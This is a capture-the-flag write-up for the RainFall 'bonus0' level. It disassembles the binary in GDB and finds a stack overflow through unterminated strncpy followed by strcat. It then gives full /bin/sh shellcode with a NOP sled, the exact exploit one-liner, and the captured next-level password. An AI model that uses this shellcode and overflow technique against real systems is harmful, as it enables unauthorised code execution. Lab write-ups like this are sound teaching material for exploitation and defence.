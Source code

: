 # bonus0

## exploring the binary
```shell
bonus0@RainFall:~$ ./bonus0
 -
phantom
 -
phantom
phantom phantom
bonus0@RainFall:~$ ./bonus0
 -
phantom
 -
society
phantom society
```
The binary waits for two strings from standard input, then prints them together, separated by a space.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   %ebp
   0x080485a5 <+1>:	mov    %esp,%ebp
   0x080485a7 <+3>:	and    $0xfffffff0,%esp
   0x080485aa <+6>:	sub    $0x40,%esp
   0x080485ad <+9>:	lea    0x16(%esp),%eax
   0x080485b1 <+13>:	mov    %eax,(%esp)
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    0x16(%esp),%eax
   0x080485bd <+25>:	mov    %eax,(%esp)
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:	mov    $0x0,%eax
   0x080485ca <+38>:	leave
   0x080485cb <+39>:	ret
End of assembler dump.
```
During runtime, the function <code>pp()</code> is called from <code>main()</code>, and the <code>puts()</code> function is used to print the output. We inspect <code>pp()</code>:

```shell
Dump of assembler code for function pp:
   0x0804851e <+0>:	push   %ebp
   0x0804851f <+1>:	mov    %esp,%ebp
   0x08048521 <+3>:	push   %edi
   0x08048522 <+4>:	push   %ebx
   0x08048523 <+5>:	sub    $0x50,%esp
   0x08048526 <+8>:	movl   $0x80486a0,0x4(%esp)
   0x0804852e <+16>:	lea    -0x30(%ebp),%eax
   0x08048531 <+19>:	mov    %eax,(%esp)
   0x08048534 <+22>:	call   0x80484b4 <p>
   0x08048539 <+27>:	movl   $0x80486a0,0x4(%esp)
   0x08048541 <+35>:	lea    -0x1c(%ebp),%eax
   0x08048544 <+38>:	mov    %eax,(%esp)
   0x08048547 <+41>:	call   0x80484b4 <p>
   0x0804854c <+46>:	lea    -0x30(%ebp),%eax
   0x0804854f <+49>:	mov    %eax,0x4(%esp)
   0x08048553 <+53>:	mov    0x8(%ebp),%eax
   0x08048556 <+56>:	mov    %eax,(%esp)
   0x08048559 <+59>:	call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>:	mov    $0x80486a4,%ebx
   0x08048563 <+69>:	mov    0x8(%ebp),%eax
   0x08048566 <+72>:	movl   $0xffffffff,-0x3c(%ebp)
   0x0804856d <+79>:	mov    %eax,%edx
   0x0804856f <+81>:	mov    $0x0,%eax
   0x08048574 <+86>:	mov    -0x3c(%ebp),%ecx
   0x08048577 <+89>:	mov    %edx,%edi
   0x08048579 <+91>:	repnz scas %es:(%edi),%al
   0x0804857b <+93>:	mov    %ecx,%eax
   0x0804857d <+95>:	not    %eax
   0x0804857f <+97>:	sub    $0x1,%eax
   0x08048582 <+100>:	add    0x8(%ebp),%eax
   0x08048585 <+103>:	movzwl (%ebx),%edx
   0x08048588 <+106>:	mov    %dx,(%eax)
   0x0804858b <+109>:	lea    -0x1c(%ebp),%eax
   0x0804858e <+112>:	mov    %eax,0x4(%esp)
   0x08048592 <+116>:	mov    0x8(%ebp),%eax
   0x08048595 <+119>:	mov    %eax,(%esp)
   0x08048598 <+122>:	call   0x8048390 <strcat@plt>
   0x0804859d <+127>:	add    $0x50,%esp
   0x080485a0 <+130>:	pop    %ebx
   0x080485a1 <+131>:	pop    %edi
   0x080485a2 <+132>:	pop    %ebp
   0x080485a3 <+133>:	ret
End of assembler dump.
```
We see that <code>pp()</code> invokes potentially exploitable functions such as <code>strcpy()</code> and <code>strcat()</code>, and it also calls <code>p()</code> twice. We proceed to disassemble <code>p()</code>.
```shell
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   %ebp
   0x080484b5 <+1>:	mov    %esp,%ebp
   0x080484b7 <+3>:	sub    $0x1018,%esp
   0x080484bd <+9>:	mov    0xc(%ebp),%eax
   0x080484c0 <+12>:	mov    %eax,(%esp)
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:	mov    %eax,(%esp)
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	movb   $0x0,(%eax)
   0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:	movl   $0x14,0x8(%esp)
   0x0804850d <+89>:	mov    %eax,0x4(%esp)
   0x08048511 <+93>:	mov    0x8(%ebp),%eax
   0x08048514 <+96>:	mov    %eax,(%esp)
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave
   0x0804851d <+105>:	ret
```
This function is responsible for invoking the <code>read()</code> function. We observe that the value <code>0x1000</code> (4104) is pushed into the memory location specified by <code>0x8(%esp)</code>, setting up the buffer size for the <code>read()</code> call. The effective address of the memory location <code>-0x1008(%ebp)</code> is then loaded into the <code>eax</code> register, which limits the bytes read to 4096 (diff 8).

## buffer overflow
The buffer overflow limitation will be determined by <code>strcat()</code>, so we will examine the buffer's state before <code>puts()</code> is called in <code>main()</code>. Our objective is to pass two long strings as parameters and then inspect the value of the instruction pointer register (<code>EIP</code>) at the point of <code>puts</code> execution.
``` shell
(gdb) b *0x080485c0
Breakpoint 1 at 0x80485c0
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmn

Breakpoint 1, 0x080485c0 in main ()
(gdb) step
Single stepping until exit from function main,
which has no line number information.
AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOPQRST��� ABCDEFGHIJKLMNOPQRST���
Warning:
Cannot insert breakpoint 0.
Error accessing memory address 0x51504f4e: Input/output error.

0x4d4c4b4a in ?? ()
(gdb) i reg
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff730	0xbffff730
ebp            0x49484746	0x49484746
esi            0x0	0
edi            0x0	0
eip            0x4d4c4b4a	0x4d4c4b4a
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
Now, we observe that register overwriting begins at the tenth character, suggesting an offset of 9. This size makes it fairly impossible to use a classic <code>ret2libc</code> attack, so we will use a <code>shellcode</code> for this purpose. The piece of hexadecimal code that we use as a payload for execution has already been pre-made for us in [shellcode injection](https://0xrick.github.io/binary-exploitation/bof5/):
``` shell
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
To export this as an environmental variable, we include <code>NOP</code> (<code>\x90</code>) within the shellcode. These instructions act as padding, ensuring that the shellcode is properly aligned within the buffer or memory space it occupies. Additionally, they make the shellcode easier to locate in environments where memory layout may shift.
``` shell
bonus0@RainFall:~$ export SCODE=`python -c 'print("\x90" * 150 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
bonus0@RainFall:/tmp$ cc addr.c -o addr
bonus0@RainFall:/tmp$ ./addr
SCODE set at 0xbffff85b
```
The only thing left to do is to expose the address of this environmental variable, which can be easily accomplished with our custom C binary. Then, we can construct a simple input that will pass both strings (separated by <code>\n</code>) following these rules:
- the total size of the first buffer is 4096
- offset of the second string is equal to 9
- overflow will happen in the second string
``` shell
4095 * placeholder | \n | 9 * placeholder | shellcode | 150 * placeholder
```

## exploit
``` shell
bonus0@RainFall:~$ python -c 'print "F"*4095 + "\n" + "F"*9 + "\xbf\xff\xf8\x5b"[::-1] + "F"*150' > /tmp/flagb0
bonus0@RainFall:~$ cat /tmp/flagb0 - | ./bonus0
 -
 -
FFFFFFFFFFFFFFFFFFFFFFFFFFFFF[���FFFFFFF��� FFFFFFFFF[���FFFFFFF���
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
